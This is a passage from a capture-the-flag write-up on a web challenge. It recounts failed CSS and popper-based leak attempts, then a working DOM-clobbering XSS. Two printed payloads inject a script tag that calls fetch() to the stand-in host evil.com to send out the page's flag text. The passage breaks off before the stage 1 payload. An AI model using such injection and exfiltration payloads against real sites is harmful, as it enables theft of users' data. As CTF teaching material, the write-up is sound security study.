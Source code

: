 ```
4. Using `::first-line` as an alternative to scrollbars. The idea is that if we use `overflow-wrap:anywhere` on the flag, we could have some styles apply only on to the first line of the now-multi-line flag. This could be used with the ligature attack perhaps, or the unicode-range one. While the result is "visually" correct (the style does apply only before the wrap point), we couldn't get chrome to be lazy. Any attempt we tried either made chrome leak the entirety of the flag character set, or nothing at all. It's probably reasonable that chrome has to resolve this eagerly, but you'd hope there might be some way to exploit this somehow. But apparently not.
5. One last shot at trying to leak an overflow via bootstrap. We knew that the bootstrap bundle contains popper, which in turn is all about overflow fixing/manipulation. The hope is that if the flag node (or a parent container thereof) was given the right set of classes, the popper javascript would kick in when it detected an overflow and changed it to a different set of classes or something. This is turn would be leaked to our endpoint. We never did find a way to get this working, but the sample space is probably huge enough that it's likely we might have missed something.

Anyway, everything was a massive failure. Except that we knew the set of characters. Could we guess which words would appear? Maybe `m3rry` as in `merry xmas`. But the sample space is still way too huge, so let's not go there.

### Idea 3 - Replacing javascript variables

Having stared at `background.js` countless times throughout the challenge, we honestly thought the way the background was changed was suspicious and highly unusual. Unusual enough that this probably hinted the way in. (Along the same lines, we also suspected if the Stage 1 About (cat) page was hinting anything, but maybe not.) Since `$("#bg").val()` was arbitrary HTML code, we could inject pretty much anything. In fact, because of the `script-dynamic` policy, we could even inject a `<script>` element here that would get executed. But how to replace the `backgrounds` variable?

Then of course, realisation came all at once. We cannot set the `backgrounds` variable by javascript, but we could certainly create an element with the name/id `backgrounds`. It probably conflicts with the later definition, but that can always be commented out (again, the CORS comment was probably a hint screaming at us to use comments). There's probably a restricted set of attributes which automatically turn into member properties, but name and id appear to be two of them. With that in mind, the intended payload would be:

```
<input type="hidden" id="bg" value="id"><img name="backgrounds" id="<script>fetch(`http://evil.com/`+$(`b`).text())</script>"><!--">
```

To explain the parts of this payload:
- `value="id"` means we will read `backgrounds.id`
- `backgrounds` becomes a javascript variable containing our element
- `backgrounds.id` is thus the value of the `id` attribute of the `backgrounds` element
- This is javascript code that will get executed, and leak the value of the flag back to our endpoint.

Finally, we have a working payload! All that's left is to put it together.

We go back to stage 1, where we have to first send a POST request with

```
bg=id"><img name="backgrounds" id="<script>fetch(`http://evil.com/`%2B$(`b`).text())</script>"><!--
```

This will have to be done via a `fetch` request with no-cors (and thus an opaque response), and then we have to redirect the window. The javascript itself to do this is not difficult, but it turns out there's an extra layer of difficulty added as the callback has a 250-character limit. We get around this by simply using `location.hash` to store the Stage 2 payload (base64 encoded for good measure so we don't have to escape more HTML entities).

So our stage 1 payload is:
```